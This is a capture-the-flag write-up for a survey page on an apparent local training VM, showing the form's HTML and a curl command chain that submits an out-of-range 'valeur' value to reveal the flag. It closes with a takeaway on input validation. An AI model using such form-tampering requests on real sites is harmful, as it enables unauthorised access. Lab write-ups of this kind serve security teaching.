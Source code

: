 # Survey Page
__http://192.168.56.101/?page=survey__

## Description
This is a survey page where users can make choices and provide input. Each row of the "Make your choice" table is an HTML form element. The form action is set to "#" which means it submits to itself, and the form method is set to POST.

## Form Inputs
The form has several inputs:

```<input type="hidden" name="sujet" value="2">
    <input type="hidden" name="sujet" value="3">
    <input type="hidden" name="sujet" value="4">
    <input type="hidden" name="sujet" value="5">
    <input type="hidden" name="sujet" value="6"> 
<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>```

1. Input name "sujet" (type: hidden): This input has a value range from 2 to 6.
2. Input name "valeur" (type: select): This input has a value range from 1 to 10.

The "valeur" element also has an onchange JavaScript attribute, which automatically submits the form when the value is changed.

## Flag
If a POST request is submitted with the "valeur" value greater than 10, the page will display the flag.

```curl -s 'http://192.168.56.101/index.php?page=survey' --data 'sujet=2&valeur=10'  -o _10.html && curl -s 'http://192.168.56.101/index.php?page=survey' --data 'sujet=2&valeur=11'  -o _11.html && diff _10.html _11.html | sed 's/.*flag is \(.*\)<\/h2>.*/\1/' > flag```

## Key Takeaway
The key takeaway from this experience is the importance of data sanitization and validation to prevent potential security vulnerabilities. Whether variables are passed in the URL through a GET request or through a more complex POST request, proper measures should be taken to ensure the accuracy and safety of user data.</br>
In terms of security, this code is attempting to exploit a vulnerability in the survey page. By sending different POST requests with varying values of thevaleur parameter, the code checks if there is any difference in the server's response. The assumption is that if the value of valeur is greater than 10, the flag will be displayed in the response.</br>
However, this approach is not a secure way of extracting the flag, as it relies on the assumption that the flag will always be wrapped in a specific HTML tag structure. Additionally, this code does not handle edge cases or validate/sanitize the user input properly.</br>
To ensure better security, it is crucial to implement proper input validation and sanitization techniques, such as server-side validation and using secure APIs, to prevent potential vulnerabilities like injection attacks or data manipulation.</br>
